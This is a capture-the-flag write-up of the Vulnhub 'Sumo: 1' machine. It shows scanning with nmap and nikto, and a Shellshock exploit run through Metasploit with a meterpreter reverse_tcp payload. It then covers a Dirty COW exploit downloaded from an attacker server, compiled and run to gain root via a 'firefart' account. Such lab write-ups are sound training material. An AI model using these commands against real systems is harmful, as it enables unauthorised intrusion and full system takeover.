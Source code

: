 # Sumo-1: Vulnhub Writeup
It is an boot2root challenge of the Vulnhub machine “Sumo: 1”. An intermediate box based on the Linux machine.

Machine Name: Sumo_Sun*
- Author: SunCSR Team
- Difficulty: Beginner
- Tested: VMware Workstation 15.x Pro
- DHCP: Enabled
- Goal: Get the root shell i.e.(root@localhost:~#) and then obtain flag under /root).

## SCANNING

Scanning port using nmap 

**nmap target-ip**

![Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled.png](Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled.png)

Service version and aggressive scan

**nmap -sV -A target-ip**

![Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%201.png](Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%201.png)

## Enumeration

Lets open target-ip in web browser

![Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%202.png](Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%202.png)

Running  nikto on target-ip

**nikto -h target-ip**

![Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%203.png](Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%203.png)

Nikto found that application is vulnerable to shellshock.

![Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%204.png](Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%204.png)

## Exploitation

After some research i found shellshock exploit in metasploit.

open msfconsole and search shellshock

**use exploit/multi/http/apache_mod_cgi_bash_env_exec** 

![Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%205.png](Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%205.png)

**set payload Linux/x86/meterpreter/reverse_tcp**

![Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%206.png](Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%206.png)

**set rhosts target-ip**

**set targeturi /cgi-bin/test**

![Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%207.png](Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%207.png)

**exploit**

![Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%208.png](Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%208.png)

We got meterpreter shell of target system.

![Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%209.png](Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%209.png)

## Privilege escalation

Download dirtycow script from attacker server

![Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%2010.png](Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%2010.png)

![Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%2011.png](Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%2011.png)

compile script using command    **gcc -pthread -o exp exploit.c -lcrypt**

![Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%2012.png](Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%2012.png)

give execute permission to exp

**chmod 777 exp**

![Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%2013.png](Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%2013.png)

run script using command   (This script will pwn root user as firefart)

**./exp 0    (here 0 is password)**

![Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%2014.png](Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%2014.png)

Lets connect through ssh

**ssh firefart@target-ip**

![Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%2015.png](Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%2015.png)

open /etc/passwd

![Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%2016.png](Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%2016.png)

change firefart to root

![Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%2017.png](Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%2017.png)

Then again connect with ssh as root user now

**ssh root@192.168.122.137**

![Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%2018.png](Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%2018.png)

Got root flag in root.txt file
